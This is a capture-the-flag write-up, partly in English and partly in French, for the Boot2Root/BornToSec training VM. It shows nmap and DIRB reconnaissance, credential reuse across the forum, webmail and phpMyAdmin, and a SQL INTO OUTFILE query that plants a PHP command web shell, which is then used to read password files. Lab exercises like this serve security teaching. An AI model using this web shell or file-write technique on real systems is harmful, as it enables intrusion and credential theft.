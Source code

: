  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap <IP>.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP we're going to use DIRB to gather information about the file structure
![DIRB](https://sourceforge.net/projects/dirb/)
DIRB is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/
--------------------


Avec nmap on recupere les ports, il y a un http et un https sur l'adresse IP 192.168.99.100

On recupere un script appelle DIRB qui a partir d'un dictionnaire teste la presence d'elements dans l'arboressence.
https://sourceforge.net/projects/dirb/i


En testant ./dirb https://192.168.99.100/ wordlists/common.txt -w

on se rend compte qu'il y a :
un forum auquel on peut acceder par navigateur
un webmail https://192.168.99.100/webmail/src/login.php
un phpmyadmin


Il y a un lien qui liste les users https://192.168.99.100/forum/index.php?mode=user

lmezard a un seul poste dans : "Probleme login ?"

dans probleme login il y a une entree etrange --> Failed password for invalid user !q\]Ej?*5K5cy*AJ from
On vois quil existe un user "root"
il y a aussi un "Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh" ?

Si on essaie !q\]Ej?*5K5cy*AJ en password pour lmezard ca passe.
on peut recuperer son mail --> laurie@borntosec.net

On va le tenter dans le webmail avec le meme password et ca passe ouuuuuh!!!!

IL Y A UN MESSAGE DB ACCESS !!!

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
Bouyaaa !!!

il y a aussi les mails de
ft_root@mail.borntosec.net
qudevide@mail.borntosec.net

En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

